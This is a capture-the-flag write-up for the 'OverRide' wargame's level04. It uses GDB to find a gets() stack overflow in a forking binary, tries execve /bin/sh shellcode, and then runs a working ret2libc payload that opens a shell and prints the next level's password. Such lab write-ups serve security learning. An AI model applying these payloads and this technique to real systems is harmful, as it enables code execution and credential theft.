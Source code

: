 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```
i noticed gets() which is vulnurable to beffetOverflow
```
run

=> 0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    %eax,0xac(%esp)
   
(gdb) ni
0x080486db in main ()
(gdb) Give me some shellcode, k   
   
```
as u see the main parent process jumps directly to the prompt

In GDB, ptrace is used to monitor and control the execution of the program being debugged. 
GDB uses ptrace to set breakpoints, read and write memory, and control the execution of the program.

When ptrace() is called, it allows the parent process to observe and control the execution of the child process.

When you start GDB, it attaches to the original process and suspends its execution.
`When you issue the "run" command, GDB uses the "fork" system call to create a new process that runs the program being debugged.`
The new process is identical to the original process, except that it is running in a different address space.

Once the new process is created, GDB uses ptrace to control its execution.

In the case of gdb, it calls fork() to create a child process, and then calls ptrace() on the child to observe and control its execution.
This allows gdb to pause the execution of the child process, inspect its memory and registers, set breakpoints, and other debugging operations.

One alternative to inferior command in GDB to trace the execution of forked child process is to use the set follow-fork-mode command.

`By default, GDB stops the parent process when it encounters a fork call, and allows you to continue debugging the child process.` 

The set follow-fork-mode command allows you to specify how GDB should handle the creation of a child process/forks.
You can set it to one of the following modes:

* parent: GDB will remain attached to the parent process after a fork, and will not automatically follow the child process.
* child: GDB will detach from the parent process and attach to the child process after a fork.
* ask: GDB will prompt you for which process to follow after a fork.


```gdb
(gdb) set follow-fork-mode child

=> 0x80486d6 <main+14>:	call   0x8048550 <fork@plt>
   0x80486db <main+19>:	mov    %eax,0xac(%esp)
   
   
(gdb) i r
eax            0x0	0

so now we re dealing with a child process
```



=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

```
(gdb) run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1709]
=> 0x6261616f

(gdb) i r $eip
eip            0x6261616f

➜  Desktop cyclic -l 0x6261616f
156

(gdb) run <<<$(python -c 'print "A" * 156 + "BBBB"')
Cannot access memory at address 0x42424242
```

```
(gdb)
=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

(gdb) x/60wx $esp
0xffffd650:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd660:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd670:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x42424242

(gdb) p/d 0xffffd6ec - 0xffffd650
$2 = 156

```
this syntax with shellcode isn't working for me
`(python -c 'print "A" * 135 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xff\xff\xd6\x50"[::-1]' ; cat) | ./level04`

ill try ret2libc
```
p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) info proc mappings
   0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
   
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec   
```
```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```


























